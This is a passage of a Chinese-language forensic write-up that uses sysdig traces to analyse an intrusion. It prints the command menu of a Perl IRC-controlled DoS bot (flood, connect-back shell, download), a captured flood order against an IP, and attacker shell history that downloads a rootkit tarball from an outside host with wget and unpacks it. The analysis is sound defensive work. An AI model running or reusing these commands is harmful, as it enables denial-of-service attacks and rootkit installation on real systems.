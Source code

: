 ```
##        Created for educational purpose only.                ##  !u @flood                                      ##
## I'm not responsible for the illegal use of this program.    ##  !u @utils                                      ##
####################################################################################################################
## [ Channel ] #################### [ Flood ] ################################## [ Utils ] #########################
####################################################################################################################
## !u !join <#channel>          ## !u @udp1 <ip> <port> <time>              ##  !su @conback <ip> <port>          ##
## !u !part <#channel>          ## !u @udp2 <ip> <packet size> <time>       ##  !u @downlod <url+path> <file>     ##
## !u !uejoin <#channel>        ## !u @udp3 <ip> <port> <time>              ##  !u @portscan <ip>                 ##
## !u !op <channel> <nick>      ## !u @tcp <ip> <port> <packet size> <time> ##  !u @mail <subject> <sender>       ##
## !u !deop <channel> <nick>    ## !u @http <site> <time>                   ##           <recipient> <message>    ##

```

因催斯汀...这原来是一个perl DoS客户端，可以被IRC控制执行命令，所以攻击者就可以很轻松地管理这些成千上万的机器。我也是足够地幸运，因为wget在整个过程中就进行了4KB的I/O操作，所以如果我查看全部的输出，我就可以得到完整的源代码（以上的是被截断的）。通过读取其中的header我们就可以知道这个东西是怎么运作的——它应该会接收到一个“`@udp`”IRC消息然后使用网络流量冲击目标主机。让我们来看看是否有人发送了一个命令：

```
$ sysdig -r trace.scap.gz -A -c echo_fds evt.buffer contains @udp
------ Read 67B from 170.170.35.93:39194->162.243.147.173:3132
:x!~xxxxxxxxx@xxxxxxxxx.la PRIVMSG #nanana :!u @udp1 39.115.244.150 800 300

```

正如你所见，bot接收到一个（肯定来自它的owner）TCP连接，其中包含一条向39.115.244.150IP的800端口的攻击命令，这正好跟之前网络连接列表中，前两项泛洪数百兆流量的IP地址和端口号相同。这一切都很有意义！但是攻击并没有就此止步：

```
06:13:11 root) wget xxxxxxxxx.xp3.biz/other/rk.tar
06:13:12 root) tar xvf rk.tar
06:13:12 root) rm -rf rk.tar
06:13:12 root) cd /usr/sbin/rk
06:13:17 root) tar zxf mafixlibs

```

什么是mafixlibs？Google说它是一种rootkit，但是我想看看在那个tar文件里包含着什么，所以我就再次使用sysdig，查询tar写了哪些文件：

```
$ sysdig -r trace.scap.gz -c topfiles_bytes proc.name contains tar and proc.args contains mafixlibs
Bytes     Filename
------------------------------
207.76KB  /usr/sbin/rk/bin/.sh/sshd
91.29KB   /usr/sbin/rk/bin/ttymon
80.69KB   /usr/sbin/rk/bin/lsof
58.14KB   /usr/sbin/rk/bin/find
38.77KB   /usr/sbin/rk/bin/dir
38.77KB   /usr/sbin/rk/bin/ls
33.05KB   /usr/sbin/rk/bin/lib/libproc.a
30.77KB   /usr/sbin/rk/bin/ifconfig
30.71KB   /usr/sbin/rk/bin/md5sum
25.88KB   /usr/sbin/rk/bin/syslogd

```
